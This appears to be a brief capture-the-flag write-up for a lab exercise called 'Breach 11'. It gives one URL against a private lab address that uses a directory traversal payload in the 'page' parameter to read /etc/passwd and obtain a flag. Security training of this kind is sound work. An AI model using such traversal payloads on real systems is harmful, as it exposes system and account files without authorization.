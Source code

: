 # Breach 11 - File system access vulnerability
- Follow the link with the corresponding IP address as follows to get the flag
    ```
    http://10.12.1.129/?page=../../../../../../../etc/passwd
    ```
